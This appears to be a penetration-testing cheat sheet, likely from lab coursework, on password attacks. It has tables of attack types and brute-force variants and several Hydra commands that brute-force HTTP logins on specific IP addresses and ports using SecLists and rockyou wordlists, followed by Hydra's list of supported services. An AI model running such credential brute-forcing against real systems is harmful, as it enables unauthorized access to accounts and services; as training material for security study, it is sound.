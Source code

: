 | Password Attack Type |
| -------------------- |
| Dictionary attack |
| Brute force |
| Traffic interception |
| Man In the Middle |
| Key Logging |
| Social engineering |

| Attack | Description |
| ------ | ----------- |
| Online Brute Force Attack | Attacking a live application over the network, like HTTP, HTTPs, SSH, FTP, and others |
| Offline Brute Force Attack | Also known as Offline Password Cracking, where you attempt to crack a hash of an encrypted password. |
| Reverse Brute Force Attack | Also known as username brute-forcing, where you try a single common password with a list of usernames on a certain service. |
| Hybrid Brute Force Attack	| Attacking a user by creating a customized password wordlist, built using known intelligence about the user or the service. |

## Hydra
Combined Credentials Wordlist:
```
hydra -C /opt/useful/SecLists/Passwords/Default-Credentials/ftp-betterdefaultpasslist.txt 178.211.23.155 -s 31099 http-get /
```
Username/Password Attack:
```
hydra -L /opt/useful/SecLists/Usernames/Names/names.txt -P /opt/useful/SecLists/Passwords/Leaked-Databases/rockyou.txt -u -f 178.35.49.134 -s 32901 http-get /
```
Username Brute Force:
```
hydra -L /opt/useful/SecLists/Usernames/Names/usernames.txt -p amormio -u -f 178.35.49.134 -s 32901 http-get /
```

### Brute Forcing Forms
Hydra provides many different types of requests we can use to brute force different services:
```
hydra -h | grep "Supported services" | tr ":" "\n" | tr " " "\n" | column -e

    Supported			        ldap3[-{cram|digest}md5][s]	rsh
    services			        memcached					rtsp
    				            mongodb						s7-300
    adam6500			        mssql						sip
    asterisk			        mysql						smb
    cisco				        nntp						smtp[s]
    cisco-enable		        oracle-listener				smtp-enum
    cvs				            oracle-sid					snmp
    firebird			        pcanywhere					socks5
    ftp[s]				        pcnfs						ssh
    http[s]-{head|get|post}		pop3[s]						sshkey
    http[s]-{get|post}-form		postgres					svn
    http-proxy		        	radmin2						teamspeak
    http-proxy-urlenum		    rdp				  		    telnet[s]
    icq				            redis						vmauthd
    imap[s]		        		rexec						vnc
    irc				            rlogin						xmpp
    ldap2[s]		        	rpcap
```